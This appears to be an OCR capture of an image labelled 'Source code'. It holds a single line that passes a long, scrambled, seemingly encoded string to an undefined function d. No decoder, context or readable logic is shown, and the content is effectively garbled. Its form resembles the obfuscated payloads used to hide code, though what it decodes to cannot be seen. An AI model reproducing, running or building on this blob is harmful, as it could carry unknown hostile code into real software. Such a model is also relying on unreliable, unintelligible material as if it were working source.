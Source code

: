 a=d(e,"!)sRDp%FE0_;I5SN;R%D0%IEN;RrpS0{IsDFEN5sSN;5N;sOpsED)Fp%ES;p5N)Sp%F5_0S#6NR5EsD)F0_D5%*EES5))%DDDD_R5S0;I_N5R_%b0sIDRSE0;SN)R))/%pIRNR)_D;0YpQEM;sSD5%)DD%;I)S)sDsFD_%5EQ_;I;ASr5RLIR%%E0_s^%R_E5%SFsNFsENp50sImNssD_;IIsRp0)NpEEs;DS%%);ESNssD)EL_F5;_09)#IRSFGN%RI%N_;E_*sRF%I0FEDl5s0%5DIIS&sR)%EE;;;NSs)psDvI0S5s_pCR_00S5)Np^%F_;5;I_RsD)D)F5_D5%GEE%5;b)R)%SED5sN0DR%)_.%)0;IDN%sE_SNDsFpRE5IsS;s;p5)5pFEa;sSDEk;5SF)IDSFN;050)E50)%RI%S_MRpF%0N5%4)R)F)0R5DN5R%%Is;F)ESImNsFF;;NI5_%RFN;IS5sFp%F5_NSu5%sRFS_550)R/RD%DLFg_s5DL%RED_ksHSx)Ds%D0%IEDsE5IsNpRp)D%F;In()5pI0D;RS;);p;);pFFS;zSsED;s50o5D)F%_N5SeER;F_R;%N0S5eOs0050zEI;dRsS%B0s)FpNE_I%NpsIpFsRp;E%;ES_0R_NNsswD5ED_NFIFI%EsIssIp5SN0D_R5ED_t5shDFEI0N5RF%p_s5)G0RDpIFSISSNsS%p0D;FN_)Np_E)I0ER;IS%)ED_5RSNRs%?E5IDSN)DW5DRFz_s5DD0_F5%8;D/x)RS%D0%IEp)E5IFPDqE%R0E0;Nsspp_EDpR05;%SE)_0RSRsDQs%E0%SI)0D;F_%M0_N;DpF__p5pKIRFD)pDINNIRpspRB%a0sIDN%sES_.sNSNsR0FsDN5F5p}0sI;N;RSE)%DEF_)RRNF5_FF%_%5Ek_RI%SROD%DDRFFs0_IINSEDIFGIR_R_0N51WssN%(sp%REE;_SIF5_%IDsRR%F;;pI))0pFFp0;I)_0Ss:IRSF4NF)5D0_F5Im_RRFsRDpH0%NQN_p;SR)0E)N%S)FN;p)I5sF}R0IR;FSS)_DIFSNRp)EK;pS_5555s;D2Fs_D)S%00S5)))NPDFEF;%IJRR%}0DI;;ss5pIDEISNDsF%RDsI;Nps_ppENFFEs;sSD)%DEF_%I%speDD%%0pS_s_%N_)I))sL%IN;Ip_D;S0E)Ds5RIFNNs_pIES)6pSEpINS5sIpN)NpIEs;DS%p_;0SS)sDpEDEFSp)DD0FSF)Fs_s5D8%RE%_0I;SRNRRF<0%IEN_%NI5QsRmp00E__S;sopF0pIpE%;%SE)_DIFSI(p%pDDFE5__5IfS0R5F)EN%Fs_N50aSDGF)_;I;A_NsRN0_I0NpsN)N%sp;0p;SNbss_ES;R&pS%E_NSs)FpK)EDEF__I5S)W)sSDS%50))RI%S_7REF%_p5pSI)RDrRs%s0DI%NEs_pI5FTrNRs;p%EE;_s5EIIDS;spp;F5D;EN_SS()sE0SS)IRNF__s0(^5Ds%N0SIN;IR%%0_%I%npD>NI_)5%E%I)5NNSREI0;5NEsWpsEDNFDI0f_5SIsDDRF;_;S;_;S%YSD:Fs8NDDF)_#5))%DD%F_sI_0050NIsS%wS%s0%sE5I_N;RV%DDsIENp5Ep)0);IEsNsF_%pSE)RDpS)5LDDFD_%5E&_RI%S5D)s{pR_%E0_IIFp_sIR&DIFNIs_pIESfSpR0);;E0I)SI)Sp65E)5p0E)_ISE)RSspt%sN0EEES5%+p_N_R5FZ%RE%_W_RRFFRRFG0%IEN_FNIRvD/I%00RIEN_s;%pEpIDE%IpR%RpEItRNDI_pRDFFI__5IXSEpSj)0DR80RN%I0S5.DE_%IFcpsNNSsS%80sIDN%_E;5II;NNDsspDE%VIDN0DIsEs;sSD)%DEF_EID5pfDD?ND;;%h0FpF5EA))2pDs%E0_IIp)0p5%S;sF%D0pINNSsppFEEpEEE;_SI)Sp Isq%s%)_D_FI_SSM)sIDIRSE5I_p0sR-s);NpFRos00550nTRs%DS_s5Fs_.;p-ssR%D0%;5SS;S%SRDsssRDFs;NFE;FNI0Ss)DD%Ip)0D;FI0R5F1FRpp;_S5SVFRS%0_F_SV)sS%?0RIS5RRE%_0_p;0p;SN8ss_DNs)0%RE)IfIFsFD5)EDEF__I5S)cDsI)S%5_Rrp)pSFNDI)EDs_E0;5ENSRd%s5IsFpIENIN_SwN%%EI;;N_s5S5sDp3Es;DsEEF;IS9)Rps)RD0F%_E5_ps0NSshNDFAERE%_0IISi};s_55%I_;pRIRDDNSeF0T)0FE;I;SSs4psI%spp_FS;)N1lRD;ES_;IE)RpDFR_IFRIE5%3ER_I)))Rpssp%_IJ5s5%FDS5pwsSDpF0%ISNps)pEEF;pN_5_g_FS;RS%s)p%F;%ESN)NDFFS_0Fp_I5E7_RI;)4NRN%%0F5I0;5INSR4%s5%sFp;0pIR/lsN%F0s;_I;s0pEE5Is;p;pSN)ED_FIt)DRED_05;)%s)E)_FF)_I5D#%RE;5*;DRFs0pI0S0s0%E0NpN00IsNDs%INS;sEp00RIsS0);DI)I;Rs0SN%ssENDDNS05SfSDXFs_D5%NE_I_I0NSNKsRD%%5;R%%p0)I;;sRE%pDEI5N)Rs)cE%;0N0s)pIE);s_yh0DpEs;RS5)IDRFp_%_s_E5E^_RI%S_h5sp5F%%_0_IINSRe%s0DI%NEs;%sESIvNs0RI_Nr)NpS0)p)EE;DS%)E0_55sHDpE#;EFE)FVpsI0ND%Dp5WDpR_%_0IIST:Rs%DIs7EN;R)pS0.IsDEENIIN%s)Nm0;Nps;0p_p))s_;5;)SI)DD%FENSD)E%;D;p)RDsFF_I0N_<5I0%IDEpNDp0NSSS%)0%IDN%sE_JN;sI%DspppEFI:S_)IDS59s)pFFN;ISR);DI))pRFD_%5EpL;)5)b;NsF0_%EEN;R_Fs00IpNIs;p00SpSESI2NssDp%EEN5sI)NpEEs;DS%p;;0Sp)Is%FR;%SR_0SDjIRSFaN%R0FS_I;5NNsN%I0FIE0EIEN_sIpS0aIspF%%p_)IsSpNs8I);E0RsF);p;FS;.Sspp;%SE)%pp%);DSD)RD)%5EF5;qsRplRR0%%0EI_p)FsI0NNN%NFR)p_EI;SpR0)I%Nps5pSEp;ISp;RNs)%DEF_,%sFFS_%50)S)_%N_DIN)%R;FR_E%0_EIINSR:__Nps_p505FI5ssp%EDD0IS0sIp0)Np%Es;DS%EI;_NG)5DNFSDpF;_E5_WI_pSp),DEF%R_EF5RsESuS5j0p%VFN;R)pS08IsRIEF;ISNsNNHREs5IsF%DNR0)F;5;)n))DD%FES5DEFF_R55IDD_FFp_5NYRDDss0EI;c;RR%S0RID;szS%;0pI_NIs5%FEFI%;D;0Ns)IDSELOFs5%0;ISI);D0Fp_)F0_%5E=_I;%S_r5sopR%%E0_5SmIR>%s0D)%NEs_pI_MIENssDp%__;_SI)SF%0N;DS%)EpCFI_NSW)5DDF_555_(IRSF%_s5p^%RI0N0IISkWR0%D0FIEN_SIpS0.IsNps%pEE_IS_ss/psEDIfSE)_DI0SRuSs)DD%FE__)5TSpsEs_D5FZE0F%I0S5MTsR0%%0EI_NSsS%s0s5%}ssEp;EIIENTsspD_%I;S_)5DSE);ssp)%p_F5_ISq)MEFFD_%5Et_RN%S_)5so%R%%_0_5S;sRT%D0D5aNEs_pI_SDXNss%p%E_;_s5)S%sES;DS0)EENFI_SS6)sD;F%__5_3SRSFs_sS%)5RE%50I5EABRs%D;%SsN_sNpS0RIsRps%%_E;;INss(ERED;%SE)_%pFS;RSs)%D%F___SSIsDUF%_DS>VER_%I;SpZfsRE%%0II_R5sSFs0NIDN;sEF;EI;SNoss%DE%;IS_)SDSEs;sN%R)DEFN_ISE)hDsFDI%50e_D)%S_p5sDpR%F__0IIZDRyEp0DI%NEs_%5ESIpNss%p%E_;_NS5sp<EE;DN&)ED_FIIS%?)sD_F%_S5_D5RSEs_S5Dh5REE;0IIShiRsFF0%ISN_sSpS0sIs1%sFpE0);INEs?psED5%ND)_pRFS;FSsppD%E__N5I)%DA0p_D5%7ER_%N0S5FXsR%%%0_I_dSSs%40_IDTjsEp_EI5SFXsspIE%IiS_p5DS0sIpSD)NDEN;_I5S)dDsF;_%S/^_RS%S_s5s)%RF%E_RIIMERG%s0DS%)ss_%pESI0Ns%pp%0_;ISIsEp+IF;DS%)ED_EE_SS0)sD%F%__5_)SNsFw_I5D)kRE%_0ISSEcRs%S0%5sN_%5pS_s50NDR)pE;;;ISSsTpsE5;%Ns)_DSFS;sSss%DNFE;p5I)ED=Fs_DN%sDR_FF0S5;dsFp%%__5NNIR_%T;RIDN%sEp__R;SN;ssp%E%;_S_sSysEB;SSDs=DEF__INS0>DsE/_%SDx_F5%S;s5RWDDR%E;5IINSRu%s_5I%4Ds_pSESIsNsR%FnEEIFSIsEp4Es;Dj%s;D_E0_SS5)sEpF%;_N%1IDIFGIR5Dw%RE%__IISt5Rs%%0%I_N_RS)s0*5yNDRxpEE_;IAS_2ps0s;%N%)_E5FSIsNp)DppFEI55I,SDdFs;p5%)%R_%S0S5s{sD%FD0E50NIRE%m0sID)%RNp_0;;SNNss0pE%I_N%)IpSEg5RSD)%DEF__S5S)NDsF%_%5_1_DSss_HSs2DD#%E0_II)S;B%s_DI%tEs_05ES5sv)sD%FEE55SI)SpwEsI}S%sED_FS_SSs)sp%F5_ES;.IDEFT_s5Ds%pR%__5IS))Rs_p0%5_N;sIFq0VDRNDs%pEE_5pSSR)psE%;%S_)_pSRs;{ND)DptFE__5IsSI1Fs;%5%)_R__50SSs)NRDF00EjNNIsS%z0s5_N%R_p_ES;SNsss%%_R;EN5)IpEEB;sSDR%%pF_;N5SsRDs;p_%S_)FRIEs_nHRwDR%%E0_55NSDR%s0%I%N_s_%SDsI